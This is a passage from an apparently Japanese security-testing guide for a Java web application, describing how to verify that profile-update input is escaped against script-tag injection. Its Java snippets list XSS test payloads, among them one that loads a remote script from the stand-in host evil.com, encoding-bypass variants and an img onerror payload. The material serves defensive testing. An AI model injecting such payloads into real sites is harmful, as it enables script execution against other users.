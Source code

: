 5. セキュリティヘッダー検証
   ↓
6. パフォーマンス・安定性テスト
```

### 5.2 詳細手順

#### ステップ1: セキュリティ要件分析
```java
/**
 * テストケース名: スクリプトタグインジェクション防御テスト
 * セキュリティ要件:
 * - 要件2.1: スクリプトタグを含む入力データを送信する THEN スクリプトが実行されずエスケープされること
 * 
 * 攻撃シナリオ:
 * - 悪意のあるユーザーがプロフィール更新時にスクリプトタグを挿入
 * - システムがスクリプトタグを適切にエスケープまたは除去
 * - 他のユーザーがプロフィールを閲覧してもスクリプトが実行されない
 * 
 * 検証項目:
 * - 生のスクリプトタグが含まれていないこと
 * - エスケープ処理が適切に実行されること
 * - セキュリティヘッダーが設定されていること
 */
```

#### ステップ2: 攻撃パターン選定・準備
```java
// レベル1: 基本攻撃パターンの準備
String basicXssPayload = "<script>alert('XSS')</script>";

// レベル2: 高度攻撃パターンの準備
List<String> advancedPayloads = Arrays.asList(
    "<script type=\"text/javascript\">alert('XSS')</script>",
    "<script src=\"http://evil.com/xss.js\"></script>",
    "<script>/**/alert('XSS')/**/ </script>",
    "<script>setTimeout('alert(\"XSS\")',1000)</script>"
);

// レベル3: エンコーディング回避パターンの準備
List<String> encodingBypassPayloads = Arrays.asList(
    "&#60;script&#62;alert('XSS')&#60;/script&#62;",
    "&#x3C;script&#x3E;alert('XSS')&#x3C;/script&#x3E;",
    "&lt;script&gt;alert('XSS')&lt;/script&gt;",
    "\\u003cscript\\u003ealert('XSS')\\u003c/script\\u003e"
);

// レベル4: 複合攻撃パターンの準備
String combinedPayload = basicXssPayload + 
                         "<img src='x' onerror='alert(\"XSS2\")'>" +
                         "javascript:alert('XSS3')";
```
